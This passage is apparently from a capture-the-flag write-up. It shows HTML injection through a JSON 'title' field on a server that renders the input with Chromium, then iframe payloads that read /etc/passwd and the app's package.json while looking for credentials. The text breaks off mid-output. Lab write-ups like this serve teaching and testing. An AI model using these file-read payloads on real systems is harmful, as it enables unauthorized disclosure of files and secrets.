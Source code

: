 ##### Document Processing Flaw

Since our input is rendered in Chromium on the server side, let's see if we can introduce our own HTML into the document via the _title_ parameter. We'll just try to add an underline to the word _demo_ to verify.

```json
{
  "basket":[
    {
      "_id":"638f116eeb060210cbd83a8d",
      "title":"<u>demo</u>",
      "price":32,
      "amount":1
    }
  ]
}
```
{:.nolineno}
![HTML injection](html-injection.png)

We can include our own HTML! This could mean that we can use the iframe element to read local files.

##### Local File Disclosure

Let's try to use an iframe to read `/etc/passwd`{:.filepath}.

```json
{
  "basket":[
    {
      "_id":"638f116eeb060210cbd83a8d",
      "title":"<iframe width=1000px height=1000px src=file:///etc/passwd></iframe>",
      "price":32,
      "amount":1
    }
  ]
}
```
![Local file read](file-read.png)

Great! We can read files under the current context.
We are also informed that there is one non-root console user named **angoose**.
Since we know that this is a NodeJS app, let's try to read the source code, looking for database credentials or other juicy info.
We'll start by locating the `package.json`{:.filepath} file which should be in the working directory or a parent directory.

```html
<iframe width=1000px height=1000px src=file:///proc/self/cwd/package.json></iframe>
```
{:.nolineno}

>
```json
{
  "name": "stocker",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "dev": "nodemon index.js"
  },
  "keywords": [],
  "author": "",
```